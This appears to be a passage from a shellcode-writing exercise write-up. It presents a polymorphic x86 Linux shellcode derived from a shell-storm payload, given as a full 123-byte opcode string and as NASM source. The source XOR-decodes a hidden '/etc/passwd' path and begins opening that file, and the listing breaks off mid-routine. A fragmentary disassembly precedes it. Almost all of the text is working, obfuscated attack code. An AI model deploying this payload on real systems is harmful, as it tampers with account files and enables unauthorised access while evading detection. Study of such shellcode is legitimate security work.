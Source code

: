 ```nasm
                            ; two strings referenced by the previous instructions
0000003F  2F                das
...       ...               ...
00000069  2023              and [ebx],ah
```

## Polymorphic shellcode

Follows the polymorphic version of the shellcode:

```nasm
; Author: Robert C. Raducioiu (rbct)
; Reference: http://shell-storm.org/shellcode/files/shellcode-561.php
; Shellcode: "\xeb\x48\x5f\x89\xfe\x31\xc9\xf7\xe1\xb1\x0b\x81\x37\x71\x63\x63\x75\x83\xc7\x04\xe2\xf5\x89\xf7\x89\xfb\x83\xc3\x0c\x53\x5e\x57\x5b\xb0\x06\x48\xb2\x69\xc1\xc2\x02\x66\xb9\x43\x04\x49\xcd\x80\x93\x31\xc0\x50\x5a\x6a\x20\x5a\x4a\x6a\x03\x58\x40\x56\x59\xcd\x80\x31\xc0\xb0\x06\xcd\x80\x40\xcd\x80\xe8\xb3\xff\xff\xff\x5e\x06\x17\x16\x5e\x13\x02\x06\x02\x14\x07\x75\x05\x0c\x0c\x07\x4b\x59\x53\x4f\x41\x59\x17\x45\x41\x11\x59\x5a\x03\x0c\x0c\x01\x4b\x4c\x01\x1c\x1f\x4c\x01\x14\x02\x0b\x69\x75"
; Length: 123 bytes

global _start

section .text

_start:

    jmp short CallRunShellcode

RunShellcode:

    pop edi
    mov esi, edi

    xor ecx, ecx
    mul ecx

    mov cl, 11
    
DecodeStringBytes:
    
    xor DWORD [edi], 0x75636371

    add edi, 0x4
    loop DecodeStringBytes

OpenFile:

    mov edi, esi

    mov ebx, edi
    add ebx, 0xc

    push ebx
    pop esi

    push edi
    pop ebx

    mov al,0x6
    dec eax

    mov dl, 0x69
```